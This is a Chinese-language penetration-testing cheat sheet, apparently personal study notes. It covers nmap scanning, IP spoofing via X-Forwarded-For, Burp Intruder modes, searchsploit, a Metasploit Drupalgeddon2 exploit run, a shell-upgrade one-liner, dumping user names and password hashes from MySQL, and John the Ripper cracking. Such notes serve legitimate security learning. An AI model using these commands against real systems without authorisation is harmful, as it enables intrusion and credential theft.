


# Web Security

<span style="font-size: 19px;">**web安全要点**</span>



- 前端不可信
- web安全的根本在于，web应用在实现**HTTP协议**的过程中，没有做足够充足强大的约束，导致攻击者能够利用其中的薄弱环节进行攻击。

## flow




[How web work](../cyber/web.md#how-websites-work)

[Web Application](../cyber/WebApplication.md)

---

## nmap

[nmap介绍](../cyber/tool.md#nmap)

[端口介绍](../cyber/networkpro.md#networking-port)

```bash
# 扫描网段
nmap -sn 192.168.80.0/24 -oG -

# 检测服务版本
nmap -sV 192.168.80.22

# 扫描全端口
nmao -sS -p- 192.168.80.22

```

---

## burpsuit

[burpsuit](../security/BurpSuite.md)

<span style="font-size: 23px;">**伪造客户端IP地址**</span>

[request header](../cyber/WebApplication.md#headers-and-body)

```bash
X-Forwarded-For: 127.0.0.1
```
### intruder

1. **sniper**: 狙击手，使用单一词典，每次仅变更一个参数，如果 uname、password 都是变量，会先让uname 遍历字典，password 不变，后变 password，uname 不变。
2. **Battering ram**: 攻城锤, 使用单一词典，有多个变量，同时变更为同一值。
3. **Pitchfork**: 音叉，每个变量一个字典。一次失败后，三个变量同时改变，一个变量不会与另一个变量所有情况匹配到。
4. **Cluster bomb**: 集束炸弹，笛卡尔积，形式，每隔一个变量要与另一个变量所有情况测试到，在多个字典情况下，测试时间非常漫长。


---

## exploit

### Exploit-db

[exploit-db](https://www.exploit-db.com/), Kali linux 官方团队维护的一个安全项目，是公认的世界上最大的搜集漏洞的数据库。

<span style="font-size: 23px;">**searchsploit**</span>

```bash
# 搜索
searchsploit drupal

# 查看路径 path
searchsploit -p 34992.py

# 拷贝到本地
searchsploit -m 34992.py

# 更新本地漏洞库
searchsploit -u
```
---

### Metasploit

[Metasploit Framework](../security/Metasploit.md) , 通常简称**MSF**。一个强大的漏洞利用和测试的综合平台，其中集成了大量的漏洞利用工具。在Kali中集成了MSF的社区版本。

**MSF初始化**

```zsh
# 开启postgresql服务
systemctl start postgresql.service

# 对MSF的数据库进行初始化
msfdb init
```

<span style="font-size: 23px;">**使用**</span>

**进入控制台**

```zsh
msfconsole
```

**msf**

```bash
msf > db_status
[*] Connected to msf. Connection type: postgresql.

msf > search drupal

msf > use 1

msf exploit(unix/webapp/drupal_drupalgeddon2) > show options

msf exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.80.128

msf exploit(unix/webapp/drupal_drupalgeddon2) > exploit
```

**meterpreter**

```bash
meterpreter > shell
```
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
---

## database

[databases](../cyber/WebApplication.md#database)

```bash
mysql -uusername -ppasswd
```
```bash
 mysql -h192.168.80.15 -uroot -ppasswd --skip-ssl
```

```sql
#查看版本
select version();

# 查询 MySQL 数据库的数据文件存储目录
SELECT @@basedir AS 安装目录, @@datadir AS 数据目录;

# 显示编译 MySQL 时使用的操作系统
SELECT @@version_compile_os;

#查看当前用户
select user();

#查看当前打开的数据库
select database();

#查看所有的数据库
show databases;

#打开名为mysql的数据库
use mysql;

#查看数据库中所包含的数据表
show tables;

DESC users;
select name, pass from users;
```

### sql inject

[sql inject](../vuln/SqlInject.md)

---

## brutepforce

[bruteforce tools](../security/bruteforcingtools.md)

**字典去重排序**

```bash
sort -u wordlist.dic > sortedwordlist.dic
```

### John 

[John the Ripper](../crypto/john.md)

**Cracking**

```bash
john --format=raw-md5 --wordlist=/wordlists/hash-dic.txt hash-target.txt
```
**查看结果**

```bash
john --show --format=raw-md5 hash-target.txt
```

**其它**

`hash-identifier`

`john --list=formats`

---

